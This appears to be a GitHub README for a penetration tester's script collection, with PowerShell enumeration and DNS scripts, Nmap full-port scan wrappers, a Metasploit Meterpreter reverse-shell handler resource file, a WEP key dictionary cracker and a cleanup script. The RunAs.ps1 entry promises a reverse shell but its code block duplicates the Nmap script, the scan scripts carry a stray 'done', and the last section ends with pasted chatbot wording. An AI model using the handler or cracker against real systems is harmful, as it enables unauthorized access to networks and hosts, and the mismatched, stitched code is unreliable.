 # Scripts

* LocalAdmins.ps1 - Checks a file of host servers for members of the Administrators, Remote Desktop Users, and Users local groups.
* NSLookUp.ps1 - Runs a NSLookUp query against a file of host servers.
* PrivateIP - Runs a Nmap scan on against a file of host servers with Private IP's to check both TCP and UDP ports.
* PublicIP - Runs a Nmap scan on against a file of host servers with Public IP's to check both TCP and UDP ports.
* RunAs.ps1 - Runs a 'RunAs' command to switch context of user whilst triggering and initiating a reverse shell to the attacker.
* Meterpreter.rc - Sets a Meterpreter listener/handler with options (msfconsole -q -r Meterpreter.rc).
* WEPCracker.py - Wrapper script to crack WEP using Airdecap-ng.
* SystemCleanUp.ps1 - This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin.


### LocalAdmins.ps1

```
$servers = Get-Content C:\servers.txt
$groups = 'Administrators', 'Remote Desktop Users', 'Users'
$results = foreach ($server in $servers) {
    foreach ($group in $groups) {
        $obj = [ADSI]"WinNT://$server/$group"
        $obj.Invoke('Members') | % {
            $path = ([adsi]$_).path
            [pscustomobject]@{
                Computer = $server
                Group = $group
                Domain = $(Split-Path (Split-Path $path) -Leaf)
                User = $(Split-Path $path -Leaf)
            }
        }
    }
}
$results
```

### NSLookUp.ps1

```
$servers = get-content "C:\temp\hostlist.txt"
foreach ($Server in $Servers)
{
    $Addresses = $null
    try {
        $Addresses = [System.Net.Dns]::GetHostAddresses("$Server").IPAddressToString
    }
    catch { 
        $Addresses = "Server IP cannot resolve."
    }
    foreach($Address in $addresses) {
        write-host $Server, $Address 
    }
}
```

### Private IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Private -oG PrivateTCP.txt
nmap -sU -v -iL ./Private -oG PrivateUDP.txt
done
```

### Public IP

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### RunAs.ps1

```
#!/bin/bash
nmap -sC -sV -Pn -v -p- -iL ./Public -oG PublicTCP.txt
nmap -sU -v -iL ./Public -oG PublicUDP.txt
done
```

### Meterpreter.rc

```
use exploit/multi/handler 
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.49.91 
set LPORT 443
set ExitOnSession false 
exploit -j -z 
```

### WEPCracker.py

```
#!/usr/bin/python

import sys, binascii, re
from subprocess import Popen, PIPE

f = open(sys.argv[1], 'r')
for line in f:
    wepKey = re.sub(r'\W+', '', line)
    
    if len(wepKey) != 5 :
        continue
    hexKey = binascii.hexlify(wepKey)
    print "Trying with WEP key: " +wepKey + " Hex: " + hexKey
    p = Popen(['/usr/bin/airdecap-ng', '-w', hexKey, 'WEP-Advanced.cap'], stdout=PIPE)
    output = p.stdout.read()
    finalResult = output.split('\n')[4]
    
    if finalResult.find('1') != -1 :
        print "Success WEP Key Found: " + wepKey
        sys.exit(0)
print "Failure! WEP key could not be found with the existing dictionary!"
```

### SystemCleanup.ps1

```
# System Cleanup Script
# Removes temporary files, log files, and clears recycle bin to optimize system performance

Write-Host "Starting System Cleanup..." -ForegroundColor Green

# Function to delete files from a specified directory older than a certain number of days
function Cleanup-Files {
    param (
        [string]$Path,
        [int]$DaysOld = 7
    )
    if (Test-Path $Path) {
        Get-ChildItem -Path $Path -Recurse -File | Where-Object {
            $_.CreationTime -lt (Get-Date).AddDays(-$DaysOld)
        } | Remove-Item -Force -Verbose
    } else {
        Write-Host "Path $Path does not exist." -ForegroundColor Yellow
    }
}

# Cleaning Windows Temp folder
Write-Host "Cleaning Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "$env:Temp" -DaysOld 7

# Cleaning system Temp folder
Write-Host "Cleaning System Temp folder..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Temp" -DaysOld 7

# Deleting old log files
Write-Host "Cleaning Log files..." -ForegroundColor Cyan
Cleanup-Files -Path "C:\Windows\Logs" -DaysOld 30
Cleanup-Files -Path "C:\ProgramData\Logs" -DaysOld 30

# Clearing Recycle Bin
Write-Host "Clearing Recycle Bin..." -ForegroundColor Cyan
Clear-RecycleBin -Confirm:$false -Verbose

Write-Host "System Cleanup Completed!" -ForegroundColor Green
```

How to Use:
Save the script as SystemCleanup.ps1.
Open PowerShell as an Administrator.
Run the script using: .\SystemCleanup.ps1.
This script cleans up temporary files older than 7 days, log files older than 30 days, and clears the Recycle Bin. You can customize the paths and retention periods as needed. Let me know if you need further assistance!
